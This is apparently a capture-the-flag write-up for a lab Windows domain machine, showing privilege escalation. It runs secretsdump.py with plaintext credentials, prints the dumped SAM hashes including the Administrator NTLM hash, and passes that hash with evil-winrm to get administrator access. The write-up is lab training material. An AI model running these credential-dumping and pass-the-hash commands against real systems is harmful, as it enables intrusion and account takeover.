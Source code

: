 There's a few ways to priv esc here

`whoami /priv` shows that a-whitehat has every privilege possible so we COULD use juicy potato.

Because we have creds, `secretsdump.py` will also dump hashes for us.

` python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.127.164`

This will give us the NTLM hash for `Administrator`

```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can either crack the hash or use a Pass The Hash attack.

We can pass the hash with `evil-winrm`

`evil-winrm -i 10.10.127.164 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

This gives us root. We can grab the flag at `c:\users\administrator\desktop`



